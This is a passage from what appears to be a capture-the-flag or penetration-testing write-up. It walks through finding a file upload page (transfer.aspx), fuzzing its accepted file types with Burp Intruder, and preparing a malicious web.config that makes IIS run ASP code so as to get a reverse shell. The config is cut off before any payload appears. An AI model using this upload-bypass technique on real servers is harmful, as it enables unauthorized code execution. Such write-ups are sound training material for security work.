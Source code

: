 ```
===============================================================
Finished
```

We got 301 response for the directory "UploadedFiles".  Earlier we also notice that there's a transfer.aspx file present on the server when we were enumerating the aspx and html file extension. So now we have following two things.
1. A place where we can upload the file
2. Possible directory/path where the file is going to upload and we can access it via web browser. 

Here's the transfer.aspx look like.
![](Pasted%20image%2020240809134908.png)

I tried to upload a simple .aspx shell and I got invalid file type message. So now I need to figure out the valid file type.
![](Pasted%20image%2020240809135021.png)

Running the Brup Intruder gives me some good valid file types that I can upload.
![](Pasted%20image%2020240809135108.png)

Sort it by Content-Length. Content Length for valid file type 1331 and for invalid filetype 1336. So I got couple of options. Let's try .config file. I found an interesting [GitHub repo](https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet/blob/master/web.config) to prepare a Web.Config file with ASPX code underneath of the file that will execute the ASPX code and get me the reverse shell. But before I dive into it, I need to look at the web.config file. Here's my web.config file.

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
```